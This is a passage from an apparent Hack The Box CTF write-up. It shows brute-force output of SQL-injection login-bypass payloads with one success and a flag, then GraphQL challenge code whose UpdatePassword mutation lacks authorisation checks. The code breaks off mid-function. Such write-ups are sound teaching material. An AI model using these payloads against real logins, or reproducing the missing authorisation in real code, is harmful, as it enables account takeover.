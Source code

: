 output
``` 
61/804 - 403 - {'username': 'username', 'password': "')) or (('x'))=(('x"}
62/804 - 403 - {'username': '" or "x"="x', 'password': 'password'}
62/804 - 200 - {'username': 'username', 'password': '" or "x"="x'}
```

HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}

## Web - Passman
Helpers/GraphQLHelper.js: No authorisation on the UpdatePassword mutation in GraphQL
```javascript
const mutationType = new GraphQLObjectType({
    name: 'Mutation',
    fields: {
        RegisterUser: {
            type: ResponseType,
            args: {
                email: { type: new GraphQLNonNull(GraphQLString) },
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    db.registerUser(args.email, args.username, args.password)
                        .then(() => resolve(response("User registered successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },

        LoginUser: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    db.loginUser(args.username, args.password)
                        .then(async (user) => {
                            if (user.length) {
                                let token = await JWTHelper.sign( user[0] );
                                resolve({
                                    message: "User logged in successfully!",
                                    token: token
                                });
                            };
                            reject(new Error("Username or password is invalid!"));
                        })
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },

        UpdatePassword: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));
```